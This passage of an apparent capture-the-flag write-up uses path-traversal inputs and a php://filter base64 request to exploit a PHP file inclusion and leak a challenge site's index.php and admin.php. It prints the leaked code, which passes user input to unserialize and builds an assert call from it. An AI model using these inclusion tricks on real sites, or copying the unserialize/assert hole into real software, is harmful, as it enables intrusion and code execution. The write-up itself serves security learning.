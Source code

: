 - <http://7y4b2aymlqwmkyuh.onion/?p=86024cad1e83101d97359d7351051156>
- <http://7y4b2aymlqwmkyuh.onion/?p=./86024cad1e83101d97359d7351051156>
- <http://7y4b2aymlqwmkyuh.onion/?p=foo/../86024cad1e83101d97359d7351051156>
- <http://7y4b2aymlqwmkyuh.onion/?p=../www/86024cad1e83101d97359d7351051156>

So we're probably looking for some kind of include exploit, this is why the md5(index) page returned all this data. PHP code must be executed after the include. The page at [3] helped me to find the solution. We can use the `php://filter` to convert the md5(index) file to base64 and include it as base64 instead of being executed. This will allow us to have a look at the code before it is interpreted. This is done by calling the following URL: <http://7y4b2aymlqwmkyuh.onion/?p=php://filter/convert.base64-encode/resource=6a992d5529f459a44fee58c733255e86>

In the response, a base64 blob is included and we can decode it to get the index.php file. Here is an interesting excerpt:
```php
[CUT BY TROLLI101]
if(isset($_SESSION['k'])) {

  # <a href="?p=">Admin</a>&nbsp;

  echo '
    <a href="?p=106a6c241b8797f52e1e77317b96a201">Home</a>&nbsp;
    <a href="?p=86024cad1e83101d97359d7351051156">Products</a>&nbsp;
    <a href="?l">Logout</a>
    <br /><br />';

  include((isset($_GET['p']) ? $_GET['p'] : '106a6c241b8797f52e1e77317b96a201').'.php');
}
[CUT BY TROLLI101]
```

So actually there should be some admin zone. It must contain PHP code and was not displayed when trying to reach the p=md5(admin). Using the same technique as for the index, we can exfiltrate the admin page using the URL: <http://7y4b2aymlqwmkyuh.onion/?p=php://filter/convert.base64-encode/resource=21232f297a57a5a743894a0e4a801fc3>

When decoding the base64 blob we get the admin.php page:
```php
<?php
  error_reporting(0);

  class AdminPackage {

     public $password;
     public $leetness;

     function check_leetness() {
       if(md5($this->password) == '0e1337') echo '<pre> [+] Is it 1337? -> '.(assert('1337 == '.$this->leetness) ? 'Yes!' : 'Nope!').'</pre>';
     }

     function __construct($password, $leetness) {
       $this->password = $password; $this->leetness = $leetness;
     }
  }

  if(isset($_GET['a'])) {
    $admin_package = unserialize(base64_decode($_GET['a']));
    $admin_package->check_leetness();
  }
?>
```

